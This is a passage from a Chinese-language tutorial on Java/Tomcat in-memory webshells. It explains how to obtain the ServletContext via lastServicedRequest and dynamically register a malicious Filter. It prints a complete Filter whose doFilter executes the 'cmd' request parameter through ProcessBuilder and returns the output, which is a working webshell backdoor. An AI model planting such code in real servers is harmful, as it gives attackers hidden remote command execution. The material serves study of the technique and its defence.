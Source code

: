 ### **第二步**

通过 lastServicedRequest 和 lastServicedResponse 获取 request 和 response，然后利用 request 获取到 servletcontext 然后动态注册 Filter(由于是动态注册 filter 内存马来实现的，所以在后边的操作大致上与 filter 内存马的注册一致，后边会对比着来看)

**获取上下文环境**

在常规 filter 内存马中，是通过 request 请求获取到的 ServletContext 上下文

```bash
ServletContext servletContext = req.getSession().getServletContext();
```

而这里将 request 存入到了`lastServicedRequest`中，因此直接通过`lastServicedRequest`获取 ServletContext 即可

```bash
ServletContext servletContext = servletRequest.getServletContext();
```

**filter 对象**

其次构造恶意代码部分有些出处

在常规 filter 内存马中，是通过 new Filter 将 doFilter 对象直接实例化进去：

```bash
Filter filter = new Filter() {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
            byte[] bytes = new byte[1024];
            //Process process = new ProcessBuilder("bash","-c",req.getParameter("cmd")).start();
            Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
            int len = process.getInputStream().read(bytes);
            servletResponse.getWriter().write(new String(bytes,0,len));
            process.destroy();
            return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
    }

    @Override
    public void destroy() {

    }
};
```

而这里并不能直接将初始化的这三个方法 (init、doFilter)，包含到 Filter 对象中
